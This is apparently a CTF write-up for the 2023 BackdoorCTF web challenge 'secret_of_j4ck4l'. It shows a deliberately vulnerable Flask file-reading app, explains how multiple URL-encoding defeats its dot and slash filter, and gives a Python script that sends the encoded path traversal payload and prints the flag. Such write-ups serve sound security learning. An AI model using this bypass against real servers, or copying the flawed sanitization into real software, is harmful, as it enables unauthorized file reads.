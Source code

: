 ```yaml
---
title: 2023 BackdoorCTF - secret_of_j4ck4l
date: 2023-12-18 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_BackdoorCTF
  - Web Exploitation
  - Path traversal
---
```


## Overview

* 326 solves / 237 points
* Author: j4ck4l

## Description

> I left a message for you. You will love it definitely
> [http://34.132.132.69:8003/](http://34.132.132.69:8003/)

## Attached

[secret_of_j4ck4l.zip](https://github.com/nqthangcs/CTF-writeups/blob/main/2023/2023_BackdoorCTF/attached/secret_of_j4ck4l.zip)

This is ```app.py``` file
```py
from flask import Flask, request, render_template_string, redirect
import os
import urllib.parse

app = Flask(__name__)

base_directory = "message/"
default_file = "message.txt"

def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5


@app.route('/')
def index():
    return redirect('/read_secret_message?file=message')

@app.route('/read_secret_message')
def read_file(file_param=None):
    file_param = request.args.get('file')
    file_param = useless(file_param)
    print(file_param)
    file_path = os.path.join(base_directory, file_param)

    try:
        with open(file_path, 'r') as file:
            content = file.read()
        return content
    except FileNotFoundError:
        return 'File not found! or maybe illegal characters detected'
    except Exception as e:
        return f'Error: {e}'


if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=4053)

```

## Analyzation

Make a path traversal and we got the flag.

```
http://34.132.132.69:8003/read_secret_message?file={payload}
```

But the payload has to pass the filters

```py
def ignore_it(file_param):
    yoooo = file_param.replace('.', '').replace('/', '')
    if yoooo != file_param:
        return "Illegal characters detected in file parameter!"
    return yoooo

def another_useless_function(file_param):
    return urllib.parse.unquote(file_param)

def url_encode_path(file_param):
    return urllib.parse.quote(file_param, safe='')

def useless (file_param):
    file_param1 = ignore_it(file_param)
    file_param2 = another_useless_function(file_param1)
    file_param3 = ignore_it(file_param2)
    file_param4 = another_useless_function(file_param3)
    file_param5 = another_useless_function(file_param4)
    return file_param5
```

- ```ignore_it(file_param)``` detects dot and slash. But it can be passed by encoding to ```%2e``` and ```%2f```.

- ```another_useless_function(file_param)``` unquote the url. But double encoding works fine: ```%2e``` to ```%252e```.

## Solution

```py
import requests

URL = "http://34.132.132.69:8003/read_secret_message?file={}"

query = "%2e%2e%2fflag%2etxt"
for i in range(3):
    for j in range(i):
        query = query.replace("%", "%25")
        response = requests.get(URL.format(query))
        print(response.text)
```

The flag is
```
flag{s1mp13_l0c4l_f1l3_1nclus10n_0dg4af52gav}
```